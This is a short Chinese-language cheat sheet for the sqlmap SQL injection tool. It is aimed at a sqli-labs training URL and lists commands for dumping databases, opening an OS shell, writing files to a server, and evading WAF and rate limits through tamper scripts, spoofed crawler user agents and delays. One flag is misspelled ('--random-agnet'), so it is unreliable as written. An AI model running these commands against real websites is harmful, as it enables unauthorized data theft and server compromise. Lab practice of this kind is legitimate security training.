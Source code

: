 ### 安装

官网安装： https://sqlmap.org/  
建议迅雷下载，速度更快

目前 sqlmap 已支持 python3，直接把 git 包解压了，根目录下运行以下代码：  
`python sqlmap.py -h`

> 如果由内容，表示可以成功使用

<br>

### 常见代码

> 注意 URL 的双引号不要掉了

自动分析指定 url（--batch 自动分析，-u 指定 URL）  
`python sqlmap.py -u "http://sqli:10001/Less-1/?id=1" --batch`

获取当前数据库名称（若当前 URL 存在出入漏洞）  
`python sqlmap.py -u "http://sqli:10001/Less-1/?id=1" --current-db --batch`

获取当前用户名称（若当前 URL 存在出入漏洞）  
`python sqlmap.py -u "http://sqli:10001/Less-1/?id=1" --current-user --batch`

检查当前用户是否为管理员  
`--is-dba --batch`

爆指定数据库表格  
`-D 数据库名称 --tables --batch`

爆列  
`-D 数据库名称 -T 数据表名称 --columns --batch`

爆数据  
`-D 数据库名称 -T 数据表名称 -C 列1名称,列2名称,列3名称 --dump --batch`

<br>

查看网页根目录  
`--os-shell`

写某处文件到网站上某处（前提是远程主机开启了远程上传权限）  
`--file-write "本地文件相对路径" --file-dest "网站存储位置绝对路径"`

<br>

强制支持 https  
`--force-ssl`

<br>

### 实战

调用插件  
`--tamper=xxx.py`

使得 sqlmap 请求使用随机跌 user-agent 来绕过 WAF  
`--random-agnet`

若服务器开启 CC 拦截，将 user-agent 改变为百度爬虫头即可绕过  
`--user-agent=""`  
延迟参数也可以防止服务器检测异常流量从而阻止 sqlmap（延迟单位为秒）  
`--delay 1`

<br>
